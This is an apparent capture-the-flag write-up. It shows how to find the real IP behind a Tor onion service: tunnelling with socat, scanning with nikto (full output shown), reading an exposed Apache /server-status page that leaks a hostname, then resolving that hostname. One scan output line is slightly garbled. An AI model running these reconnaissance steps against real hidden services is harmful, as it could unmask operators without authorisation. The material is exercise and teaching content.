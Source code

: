 Run `socat` on background to map onion address to `127.0.0.1:8000`

```bash
root@kali:~# socat TCP4-LISTEN:8000,reuseaddr,fork SOCKS4A:127.0.0.1:ixbttupkdzeamjjkjyeqwkdmoawirpvxvzez3t5htq2nia24bink53ad.onion:80,socksport=9050 &
[2] 7550
```

Run `nikto` against remapped onion address `127.0.0.1:8000`.
(Note: This can take quite long time - over an hour for all scans.)

```bash
root@kali:~# nikto -h http://127.0.0.1:8000
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          127.0.0.1
+ Target Hostname:    127.0.0.1
+ Target Port:        8000
+ Start Time:         2019-05-08 09:54:23 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ / - Requires Authentication for realm 'Restricted Area'
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-561: /server-status: This reveals Apache information. bashent out appropriate line in the Apache conf file or restrict access to allowed sources.
May 08 11:10:06.000 [notice] Your system clock just jumped 3170 seconds forward; assuming established circuits no longer work.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8042 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2019-05-08 11:36:40 (GMT-4) (6137 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Check for `OSVDB-561: /server-status` as `nikto` suggested:

```bash
root@kali:~# curl http://127.0.0.1:8000/server-status
```

[Server status](./09/server-status.png) site contained hostname ` cardingphorum.com`, just `dig` it and you have the IP address.

---

### Flag:

```
31.31.76.46
```

---
---